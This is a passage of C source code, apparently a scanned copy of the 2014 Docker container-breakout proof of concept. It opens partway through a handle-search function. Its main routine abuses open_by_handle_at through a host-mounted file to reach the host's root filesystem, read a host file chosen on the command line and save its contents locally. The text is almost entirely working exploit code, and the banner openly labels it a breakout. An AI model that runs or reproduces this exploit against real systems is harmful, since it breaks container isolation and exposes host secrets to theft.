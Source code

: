 ```c
close(fd);
dump_handle(&outh);
return find_handle(bfd, path, &outh, oh);
}
}
}
closedir(dir);
close(fd);
return 0;
}


int main(int argc,char* argv[] )
{
char buf[0x1000];
int fd1, fd2;
struct my_file_handle h;
struct my_file_handle root_h = {
.handle_bytes = 8,
.handle_type = 1,
.f_handle = {0x02, 0, 0, 0, 0, 0, 0, 0}
};

fprintf(stderr, "[***] docker VMM-container breakout Po(C) 2014 [***]\n"
"[***] The tea from the 90's kicks your sekurity again. [***]\n"
"[***] If you have pending sec consulting, I'll happily [***]\n"
"[***] forward to my friends who drink secury-tea too! [***]\n\n<enter>\n");

read(0, buf, 1);

// get a FS reference from something mounted in from outside
if ((fd1 = open("/etc/hostname", O_RDONLY)) < 0)
die("[-] open");

if (find_handle(fd1, argv[1], &root_h, &h) <= 0)
die("[-] Cannot find valid handle!");

fprintf(stderr, "[!] Got a final handle!\n");
dump_handle(&h);

if ((fd2 = open_by_handle_at(fd1, (struct file_handle *)&h, O_RDONLY)) < 0)
die("[-] open_by_handle");

memset(buf, 0, sizeof(buf));
if (read(fd2, buf, sizeof(buf) - 1) < 0)
die("[-] read");

printf("Success!!\n");

FILE *fptr;
fptr = fopen(argv[2], "w");
fprintf(fptr,"%s", buf);
fclose(fptr);

close(fd2); close(fd1);

return 0;
}
```
